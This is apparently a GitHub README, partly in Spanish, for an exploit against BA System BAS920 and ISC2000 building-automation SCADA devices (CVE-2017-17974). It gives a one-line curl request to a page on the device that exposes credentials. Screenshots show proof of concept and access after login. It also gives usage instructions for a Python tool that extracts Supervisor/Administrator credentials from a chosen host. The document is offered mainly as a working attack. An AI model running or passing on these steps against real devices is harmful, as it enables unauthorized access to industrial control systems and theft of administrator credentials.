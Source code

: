 #  Exploit; SCADAS "BAS920 & ISC2000"; Credentials Exposed
## [BA System] “Improper Access Control (Authorization)”

	[*] Exploit Title:       "SCADAS "BAS920 & ISC2000"; Credentials Exposed” 
	[*] CVE:                 CVE-2017-17974
	[*] Date:                29/12/2017
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor:              BA System
	[*] devices(tested):     BAS920 & ISC2000

Atacando SCADAS de la firma “BA SYSTEM”: 

![BAS920](screenshot/baIexplorer.png)

Accedemos a la plataforma y como era de esperar nos recibe un "login form"

![BAS920_2](screenshot/get_passwd.png)

### Exploit:

```
	curl http://<host>/isc/get_sid_js.aspx
```

### POCs:
![BAS920_3](screenshot/POC_1.png)

![BAS920_4](screenshot/POC_2.png)

### Adentro:
![BAS920_5](screenshot/INDOOR.png)

![BAS920_6](screenshot/INDOOR_2.png)


***

# TOOL: "Plin Plan Plun"  (ex - cafeina )

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/baCK_system.git
	usr@pwn:~$ cd baCK_system

## help
	
	usr@pwn:~/$ python plinplanplum.py --help

	python plinplanplum.py --help
	usage: plinplanplum.py [-h] [-v] --host HOST [--port PORT]

	[+] Obtaining all credentials for the Supervisor/Administrator account

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port

	[+] Demo: python plinplanplum.py --host 192.168.1.101 -p 81

***

## Usage:
![BAS920_7](screenshot/tool_passwd.png)

#### Last update !!!
![BAS920_8](screenshot/poc_tool_1.png)

***

### Reference:
 http://misteralfa-hack.blogspot.cl/2018/04/tool-plinplamplum-scadas-bas920-isc2000.html

 http://misteralfa-hack.blogspot.cl/2017/12/ba-system-improper-access-control.html